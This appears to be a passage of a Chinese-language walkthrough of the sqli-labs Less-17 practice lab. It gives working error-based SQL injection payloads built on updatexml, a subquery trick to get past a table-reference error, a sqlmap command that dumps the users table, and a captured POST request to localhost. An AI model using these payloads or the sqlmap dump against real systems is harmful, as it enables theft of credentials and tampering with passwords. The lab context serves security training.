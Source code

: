 ```
 -1' and updatexml(1,concat(0x7e,(select group_concat(username) from users)),1) # 
```

这个会报错，但是我们可以用其他方法绕过 ，将表名users用`(select username from users)a`替换掉

```
-1' and updatexml(1,concat(0x7e,(select group_concat(username) from (select username from users)a)),1)#
```

```
-1' and updatexml(1,concat(0x7e,mid((select group_concat(username) from (select username from users)a),32,32)),1)#
```

**示例：查密码：**(仍然报错：Only constant XPATH queries are supported（仅支持常量 XPATH 查询）)

```
-1' and updatexml(1,concat(0x7e,mid((select group_concat(password) from (select username from users)a),1,32)),1)#
```

**但这一关知道用户名就可以随便改密码了呀**

（来自https://blog.csdn.net/dreamthe/article/details/123795302）

（来自https://blog.csdn.net/l2872253606/article/details/124411903）



同样，使用sqlmap：`python3 sqlmap.py -r "D:\post.txt" -D security -T users --columns --dump`

并不能成功跑出数据来，因为这儿我们跑的时候会直接给替换掉，也就是说跑出来的并不是原数据库的密码，而是替换之后的密码（后端代码本来就是先 `select` 匹配账户，然后 `updata` 修改密码）。

（你可以边让 sqlmap 跑，边刷新`Navicat`，瞅瞅数据库都遭遇了什么折磨……哎……真的是……哎）

复原的方法就是重置一下 sqli-labs 数据库

**但这一关知道用户名就可以随便改密码了呀**

// txt内容如下：

```
POST /sqli-labs/Less-17/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/sqli-labs/Less-17/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

uname=admin&passwd=asd*&submit=Submit
```



